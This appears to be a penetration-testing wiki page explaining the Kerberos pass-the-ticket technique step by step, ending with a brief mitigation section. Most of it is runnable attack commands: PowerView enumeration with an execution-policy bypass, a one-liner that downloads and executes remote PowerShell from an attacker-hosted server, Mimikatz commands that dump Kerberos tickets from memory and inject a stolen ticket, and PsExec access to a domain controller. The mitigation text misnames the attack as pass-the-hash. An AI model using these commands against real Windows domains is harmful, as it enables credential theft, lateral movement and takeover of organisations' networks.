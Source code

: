 # Pass-the-Ticket

Pass the Ticket is a credential theft technique that enables adversaries to use stolen Kerberos tickets to authenticate to resources (e.g, file shares and other computers) as a user without having to compromise that user's password.\
Adversaries often use this technique to move laterally through an organization's network to hunt for opportunities to escalate their privileges or fulfil their mission.&#x20;

#### Methods

* Tickets enumeration
* Capturing Kerberos tickets for valid accounts&#x20;
* Reusing the ticket
* Discovering privileges of the stolen ticket

## Initial enumeration

Check machines within the Active Directory Domain,  where the current user is a local administrator.

```powershell
powershell -ep bypass
. .\PowerView.ps1

Find-LocalAdminAccess

# enter in the session
Enter-PSSession $PREVIOUS_RESULT_COMPUTER
```

Now, check the privilege that we have in the machine with this command:

Copy

```powershell
whoami /all
```

Then, we have to transfer mimikatz.exe or Invoke-Mimikatz.ps1 into target machine.

{% code title="Linux -> Windows Target" %}
```powershell
# into linux
python3 -m http.server 80 

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

<pre class="language-powershell" data-title="Windows -> Windows Target"><code class="lang-powershell"># Start a HTTP File Server (HFS) into a Windows machine with .exe
# https://www.rejetto.com/hfs/

# Download files from windows target
<strong>iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
</strong></code></pre>

## Get Kerberos tickets

### With Mimikatz

Export all tickets from local memory

{% code title="Invoke-Mimikatz.ps1" %}
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
{% endcode %}

{% code title="mimikatz.exe" %}
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"
```
{% endcode %}

This is the output files:

<figure><img src="../../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

The kerberos ticket is the file within "_krgtgt_" in the name.&#x20;

### Reusing the ticket

In this step, the attacker employs the **Mimikatz** command `kerberos::ptt` to insert the obtained TGT into their own session, resulting in their session taking on the **identity** and **permissions** of the stolen TGT for future access to resources **without knowing the plaintext credentials**.

{% code title="Invoke-Mimikatz.ps1" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt $KIRBI_FILE_NAME"'
```
{% endcode %}

{% code title="mimikatz.exe" %}
```powershell
mimikatz.exe "kerberos::ptt $KIRBI_FILE_NAME"
```
{% endcode %}

The above commands is used to insert the Kerberos Ticket Granting Ticket (TGT) stored in the corresponding .kirbi file into the current session.

To make sure that the right ticket was injected, an adversary can use the “`kerberos::list`” Mimikatz command.

```powershell
mimikatz.exe "kerberos::list"
klist
```

### Discovering privileges of the stolen ticket

#### Domain Controller access check

{% code title="PowerView commands" %}
```powershell
Get-Domain # view the DC address

ls \\$DOMAIN_CONTROLLER_DOMAIN\c$ # check if we have access to DC
PSExec \\$DOMAIN_CONTROLLER_DOMAIN powershell.exe
```
{% endcode %}

If we have the privilege to access into Domain controller we can use:

```
Enter-PSSession $DC_NAME
```

Or create a bind/rev shell into domain controller with NC.

{% content-ref url="../../executive-pt/post-exploitation/shells/" %}
[shells](../../executive-pt/post-exploitation/shells/)
{% endcontent-ref %}

#### Futher info of stolen account

{% code title="PowerShell" %}
```powershell
net user Alice /domain
```
{% endcode %}







## Mitigation Technique

Effective measures to counter pass-the-hash attacks concentrate on making tickets more difficult to steal and limiting the potential impact of a stolen ticket. One such measure is to utilize Microsoft's Windows Defender Credential Guard. This technology, which was introduced in Windows 10 and Windows Server 2016, leverages virtualization to secure credential storage and provide access only to trusted processes.&#x20;

Another important step is to limit the number of endpoints where users have administrative privileges. This significantly reduces the risk of an attacker using a stolen ticket for lateral movement. It is also important to avoid granting administrative privileges across security boundaries, as this greatly reduces the risk of an attacker using a stolen ticket to escalate their privileges.



